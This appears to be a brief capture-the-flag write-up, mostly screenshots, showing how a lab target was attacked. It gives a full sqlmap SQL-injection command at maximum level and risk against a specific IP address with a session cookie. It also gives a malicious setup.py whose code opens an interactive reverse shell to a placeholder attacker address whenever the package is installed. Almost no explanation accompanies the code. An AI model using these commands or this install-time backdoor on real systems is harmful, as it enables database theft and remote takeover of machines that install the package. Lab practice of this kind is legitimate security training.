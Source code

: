 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/898b9662-7e8a-4015-84c0-e31858967981)

```
sqlmap -u "http://62.173.140.174:28680/index.php" --cookie="PHPSESSID=fejsu3n8mkc0mu8p1drfmfo862" --batch --random-agent -v --tamper=space2comment -level=5 --risk=3 -all
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca6be35-9e5c-43fa-b4a7-5851cdc99882)

https://medium.com/@sigkilla9/wakanda-1-vulnhub-part-3-of-3-92e77386d7fc

setup.py
```
from setuptools import setup
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP_ADR",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setup(name="shellcode", version="1.0")
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4c6fae7a-db27-4ac5-b2ff-98b40eb9fb3f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c1fc762-2e57-448f-8660-a05fd3552e39)

